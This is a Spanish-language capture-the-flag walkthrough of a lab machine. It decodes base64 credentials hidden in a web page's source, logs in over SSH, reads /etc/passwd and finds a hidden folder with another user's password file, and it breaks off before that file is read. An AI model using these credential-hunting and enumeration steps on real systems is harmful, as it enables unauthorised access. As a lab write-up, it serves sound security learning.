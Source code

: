 ```
```


vemos que la pagina es la que trae por defecto ubuntu, pero miramos el código fuente, el la parte final vemos esto:
```
#.........................................................................................................ZGFuaWVsYQ== : Zm9jYXJvamE=
```
parece base 64 y procedemos a decodificarla:
```bash
echo "ZGFuaWVsYQ=="  | base64 -d; echo
```
nos da como salida daniela y procedemos con la otra parte:
```bash
echo "Zm9jYXJvamE="  | base64 -d; echo
```
nos da como salida: focaroja

tenemos un user y un pass daniela:focaroja

probamos con ssh y las credenciales:
```bash
ssh daniela@172.17.0.2
```
introducimos el pass cuando nos lo pide y estamos dentro

Aquí por defecto lo primero que miro es la variable de entorno con
```bash
printenv
```
no hay nada relevante
miro los uduarios:
```bash
cat /etc/passwd | grep sh$
````
*explicacion:* hacemosun cat al archivo passwd y lo grepeamos para que solo nos liste lo que termine en sh 
dándonos esta salida:

```
root:x:0:0:root:/root:/bin/bash
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
diego:x:1001:1001:diego,,,:/home/diego:/bin/bash
daniela:x:1002:1002:daniela,,,:/home/daniela:/bin/bash
```
dos usuarios potenciales más el root.
vamos a mirar y listar lo que hay en el home del usuario daniela incluidos archivos ocultos:
```bash
ls -la
```

```
drwxr-x--- 1 daniela daniela 4096 Jan 15 06:26 .
drwxr-xr-x 1 root    root    4096 Jan  9 19:57 ..
-rw-r--r-- 1 daniela daniela  220 Jan  9 19:57 .bash_logout
-rw-r--r-- 1 daniela daniela 3771 Jan  9 19:57 .bashrc
drwx------ 2 daniela daniela 4096 Jan 15 06:26 .cache
drwxrwxr-x 3 daniela daniela 4096 Jan  9 20:33 .local
-rw-r--r-- 1 daniela daniela  807 Jan  9 19:57 .profile
drwxrwxr-x 2 daniela daniela 4096 Jan  9 20:47 .secreto
drwxrwxr-x 2 daniela daniela 4096 Jan  9 20:35 Desktop
```
ese directorio con nombre "secreto" parece tener chicha, vemos lo que contiene.
Tiene un archivo de nombre passdiego, interesante, miramos que contiene:
```bash
cat passdiego
```
